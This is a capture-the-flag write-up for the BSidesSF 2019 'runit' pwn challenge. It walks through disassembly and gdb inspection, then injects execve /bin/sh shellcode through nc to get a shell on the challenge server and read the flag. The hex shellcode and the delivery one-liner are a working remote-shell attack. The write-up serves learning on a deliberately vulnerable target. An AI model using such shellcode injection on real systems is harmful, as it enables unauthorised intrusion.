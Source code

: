 # runit
PWN | 25 Points

We are given a typical binary executable. Let's first see what it does.
```
root@kali:~/Crack Me# ./runit
Send me stuff!!
asdfasdf
Segmentation fault
```
Executing it, we feed the program input, but for some reason we get a segmentation fault. Recall that a segmentation fault occurs when you try to access a region of memory that doesn't exist. We'll keep that in mind as we proceed.

Now, let's disassemble the binary.
```
   0x0804854b <+0>:	lea    ecx,[esp+0x4]
   0x0804854f <+4>:	and    esp,0xfffffff0
   0x08048552 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048555 <+10>:	push   ebp
   0x08048556 <+11>:	mov    ebp,esp
   0x08048558 <+13>:	push   ecx
   0x08048559 <+14>:	sub    esp,0x14
   0x0804855c <+17>:	sub    esp,0x8
   0x0804855f <+20>:	push   0x0
   0x08048561 <+22>:	push   0x0
   0x08048563 <+24>:	push   0x22
   0x08048565 <+26>:	push   0x7
   0x08048567 <+28>:	push   0x400
   0x0804856c <+33>:	push   0x0
   0x0804856e <+35>:	call   0x8048410 <mmap@plt>
   0x08048573 <+40>:	add    esp,0x20
   0x08048576 <+43>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048579 <+46>:	sub    esp,0xc
   0x0804857c <+49>:	push   0xa
   0x0804857e <+51>:	call   0x80483e0 <alarm@plt>
   0x08048583 <+56>:	add    esp,0x10
   0x08048586 <+59>:	mov    eax,ds:0x804a034
   0x0804858b <+64>:	push   0x0
   0x0804858d <+66>:	push   0x2
   0x0804858f <+68>:	push   0x0
   0x08048591 <+70>:	push   eax
   0x08048592 <+71>:	call   0x8048430 <setvbuf@plt>
   0x08048597 <+76>:	add    esp,0x10
   0x0804859a <+79>:	mov    eax,ds:0x804a030
   0x0804859f <+84>:	push   0x0
   0x080485a1 <+86>:	push   0x2
   0x080485a3 <+88>:	push   0x0
   0x080485a5 <+90>:	push   eax
   0x080485a6 <+91>:	call   0x8048430 <setvbuf@plt>
   0x080485ab <+96>:	add    esp,0x10
   0x080485ae <+99>:	sub    esp,0xc
   0x080485b1 <+102>:	push   0x8048690
   0x080485b6 <+107>:	call   0x80483f0 <puts@plt>
   0x080485bb <+112>:	add    esp,0x10
   0x080485be <+115>:	sub    esp,0x4
   0x080485c1 <+118>:	push   0x400
   0x080485c6 <+123>:	push   DWORD PTR [ebp-0x10]
   0x080485c9 <+126>:	push   0x0
   0x080485cb <+128>:	call   0x80483d0 <read@plt>
   0x080485d0 <+133>:	add    esp,0x10
   0x080485d3 <+136>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485d6 <+139>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485da <+143>:	jns    0x80485f6 <main+171>
   0x080485dc <+145>:	sub    esp,0xc
   0x080485df <+148>:	push   0x80486a0
   0x080485e4 <+153>:	call   0x80483f0 <puts@plt>
   0x080485e9 <+158>:	add    esp,0x10
   0x080485ec <+161>:	sub    esp,0xc
   0x080485ef <+164>:	push   0x1
   0x080485f1 <+166>:	call   0x8048400 <exit@plt>
   0x080485f6 <+171>:	mov    eax,DWORD PTR [ebp-0x10]
   0x080485f9 <+174>:	call   eax
   0x080485fb <+176>:	mov    eax,0x0
   0x08048600 <+181>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048603 <+184>:	leave  
   0x08048604 <+185>:	lea    esp,[ecx-0x4]
   0x08048607 <+188>:	ret
```
We are given way more information than we actually need. There's a lot going on here, but we see some interesting things.

1. The `alarm` call gives us 10 seconds to access the binary. It isn't the worst thing that could happen, but just very annoying.
2. The `read` call's file descriptor is `stdin`, so it is the read function which takes care of IO. The interesting consequence here is that we won't see any buffer overflows.
3. There is a call to `eax` at `0x080485fb`. Given that we saw a segmentation fault, this makes things very interesting.

We'll set a break point right at that call function, and we'll see what's in `eax`.
```
(gdb) b *0x080485f9
Breakpoint 1 at 0x80485f9
(gdb) r
Starting program: /root/Crack Me/runit
Send me stuff!!
ABCD

Breakpoint 1, 0x080485f9 in main ()
(gdb) x/s $eax
0xf7ffb000:	"ABCD\n"
```
Sure enough, it's the input we gave. Given that it's a call to `eax`, we can simply inject shell code instead. Let's open up our [trusty shell code](http://shell-storm.org/shellcode/files/shellcode-811.php) and we'll inject that into the program.
```
root@kali:~/quintuplecs/BSidesSF2019# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | nc runit-5094b2cb.challenges.bsidessf.net 5252
Send me stuff!!
cat /home/ctf/flag.txt
CTF{you_ran_it}
```
